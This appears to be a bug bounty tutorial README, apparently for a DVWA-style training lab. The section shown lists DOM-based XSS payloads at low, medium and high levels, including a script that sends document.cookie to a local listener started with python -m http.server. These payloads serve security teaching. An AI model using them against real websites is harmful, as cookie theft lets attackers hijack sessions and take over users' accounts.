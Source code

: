 # bug-bounty-tutorial
bug bounty tutorial

## 16.xss dom

### low
```
<script>alert('hacked')</script>
<script>alert(document.cookie)</script>

python -m http.server 1337
webup
<script>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```

### medium
```
</select><image src/onerror=alert(1)>
```

### high
```
#?default=English<script>alert(1)</script>
```
